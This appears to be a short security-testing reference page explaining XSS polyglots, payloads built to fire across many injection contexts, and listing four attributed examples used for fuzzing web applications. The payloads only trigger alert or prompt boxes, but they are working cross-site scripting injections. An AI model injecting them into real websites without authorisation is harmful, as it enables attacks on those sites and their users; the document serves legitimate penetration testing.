 # XSS Polyglots

When searching for XSS vulnerabilities, you typically need to create payloads to the specific scenario. This is fine once you've found a vulnerability, but it causes issues when fuzzing for vulnerabilities. In order to cater for a large number of scenarios, tools will typically use a long list of payloads just hoping something will stick. This creates a lot of noise and makes manual validation of vulnerabilities difficult to impossible.

Polyglots are special payloads which are designed to work in a wide variety of scenarios. By trying only a few polyglots, you can cast a wider net and catch more vulnerabilities. It also allows easier manual testing to see how an application handles a given polyglot rather than a long list of fuzzing payloads.

## Example XSS Polyglots

```bash
# Polyglot Payload #1 - [Rsnake XSS Cheat Sheet](https://n0p.net/penguicon/php_app_sec/mirror/xss.html)
';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))//-- ></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83)) </SCRIPT>
```

```bash
# Polyglot Payload #2 - Ashar Javed
">><marquee><img src=x onerror=confirm(1)></marquee>" ></plaintext\></|\><plaintext/onmouseover=prompt(1) ><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->" ></script><script>alert(1)</script>"><img/id="confirm&lpar; 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http: //i.imgur.com/P8mL8.jpg">
```

```bash
# Polyglot Payload #3 - Mathias Karlsson
" onclick=alert(1)//<button ' onclick=alert(1)//> */ alert(1)//
```

```bash
# Polyglot Payload #4 - [Ahmed Elsobky](https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot)
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```
